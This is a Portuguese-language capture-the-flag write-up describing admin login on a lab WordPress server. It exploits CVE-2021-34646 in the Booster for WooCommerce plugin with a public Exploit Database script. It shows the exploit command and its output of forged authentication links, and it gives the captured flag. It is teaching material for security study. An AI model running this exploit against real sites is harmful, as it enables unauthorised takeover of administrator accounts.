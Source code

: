 # CTF 4 - Common Vulnerabilities and Exposures (CVE)

## **Objetivo:** Fazer login como administrador num servidor wordpress utilizando uma CVE com exploit conhecido.

- Ao aceder ao servidor de wordpress disponibílizado, fomos procurar os plugins utilizados encontrando uma vulnerabilidade no **Booster for WooCommerce plugin**,identificando a seguinte CVE, correspondente `a flag do desafio 1:

> CVE-2021-34646

- Após pesquisar na plataforma **Exploit Database**,encontramos um programa que nos permitia explorar a CVE encontrada anteriormente.

> https://www.exploit-db.com/exploits/50299

- Corremos o programa com o link onde esta hospedado o servidor e o valor **'1'** que usualmente se refere ao admin
>python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1

```c
[11/24/21]seed@VM:~/.../CTF4$ python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Wed, 24 Nov 2021 22:25:04 GMT
Timestamp (unix): 1637792704

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 9a8aea2dd67916a2fc4ab6c68b0863af:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOWE4YWVhMmRkNjc5MTZhMmZjNGFiNmM2OGIwODYzYWYifQ

#1 link for hash bdcf09def76ec02f8e547579f4e2eb3b:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYmRjZjA5ZGVmNzZlYzAyZjhlNTQ3NTc5ZjRlMmViM2IifQ

#2 link for hash 0b35d563f134b6888e37eed49b643c13:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMGIzNWQ1NjNmMTM0YjY4ODhlMzdlZWQ0OWI2NDNjMTMifQ

```
- Com o 1º link obtivemos:

![Figura 1](pic1.png)

- Depois de conseguir acesso ao servidor como admin seguimos o link fornecido para ter acesso `a flag

![Figura 2](pic2.png)

>flag{e4a98642cd1590231c2d2340ba531baf}